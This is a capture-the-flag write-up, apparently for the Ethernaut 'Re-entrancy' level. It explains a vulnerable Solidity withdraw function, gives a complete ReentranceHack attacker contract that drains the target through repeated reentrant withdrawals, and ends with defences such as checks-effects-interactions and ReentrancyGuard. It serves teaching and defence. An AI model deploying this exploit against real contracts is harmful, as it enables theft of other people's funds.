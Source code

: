 # Re-entrancy

The goal of this level is to steal all the funds from the contract.

Things that might help:

* Untrusted contracts can execute code where you least expect it.
* Fallback methods
* Throw/revert bubbling

## Code Breakdown

```solidity
using SafeMath for uint256;
mapping(address => uint) public balances;
```
The contract has one public mapping `balances` to keep tracking the balance of each address that has donated.

```solidity
function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }
```
`donate` allows users to donate funds to a specific address by calling the function and specifying the recipient's address as an argument. The function uses the SafeMath library to add the value of the donation to the recipient's balance.

```solidity
function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
```

`balanceOf` allows users to view the balance of a specific address and takes that address as an argument.

```solidity
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}(""); // At this point, the caller's code is executed, and can call withdraw again
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

`withdraw` allows users to withdraw their funds from the contract by calling the function and specifying the amount they want to withdraw. The function checks if the user has sufficient funds and, if so, calls the recipient's contract to transfer the funds. It then subtracts the withdrawn amount from the user's balance.

This contract is vulnerable to a reentrancy attack.

***A reentrancy attack occurs when a contract calls another contract in a way that allows the called contract to call back into the original contract before the original contract has finished executing. This can potentially allow an attacker to repeatedly withdraw funds from the contract before the contract has a chance to update the user's balance, allowing the attacker to steal funds from the contract.***

the `withdraw` function calls the `msg.sender` address, which may be an attacker-controlled contract that is designed to call back into the withdraw function in an attempt to repeatedly withdraw funds.

## Game Completion

Let's create a smart contract to exploit this and drain `Reentrance` contract funds:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Reentrance {
    function withdraw(uint _amount) external;
    function donate(address _to) external payable; 
}

contract ReentranceHack {
    Reentrance rt;
    uint256 amount = 100000000000000; // 0.0001 ethers

    constructor(address _instance) public {
        // initialize with instance address
        rt = Reentrance(_instance);
    }

    receive() external payable{
        rt.withdraw(amount); // when we receive our initial amount we will call the withdraw() again and receive ether again since our balance is not updated yet
    }

    function hack() public payable{
        rt.donate{value: amount}(address(this)); // send 0.0001 ethers to the game contract's
        rt.withdraw(amount); // withdraw the same amount to trigger the receive() function
    }
}
```

Let's deploy our contract on [Remix IDE](https://remix.ethereum.org), and execute the `hack()` with a value of 10000000000000000 wei or 0.0001 ethers (same as the game instance's current balance).
After the execution, we will end up with ***0.0011 eth***:
0.0001 eth deposited earlier + 0.001 eth already in game instance balance.

Let's see how our transaction went in the block explorer:

<img src="img/block-explorer.png">

we can see the `donate()` call followed by ***11*** `withdraw()` functions.

`Note: we might have to raise the Gas Limit on Metamask a bit if there are a lot of withdraw() calls so the transaction won't revert because of insufficient gas`

To prevent reentrancy attacks when moving funds of contracts we can use several methods:

* [Checks-Effects-Interaction Pattern](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) : Using this pattern when coding smart contracts is one of the ways to prevent reentrancy attacks. Checks must be done first, if all checks passed, effects to the state variables of the current contract should be made. Interaction with other contracts should be the very last step in any function.

* Mutex Or Lock: This will lock the current state so that any malicious attempts will be reverted. This ensures hat the contract is not interrupted while it is in the middle of processing a transaction. The unlock will then occur at the end of the function so it can be accessed next time. This design cannot be applied to all function logics..

* Pull Payments: The idea is that instead of pushing funds to a receiver, they have to be pulled out of the contract, that way we do not run arbitrary code.

* [ReentrancyGuard](https://docs.openzeppelin.com/contracts/3.x/api/utils#ReentrancyGuard) : Made by OpenZeppein, inheriting from this contract will make the ***nonReentrant*** modifier available.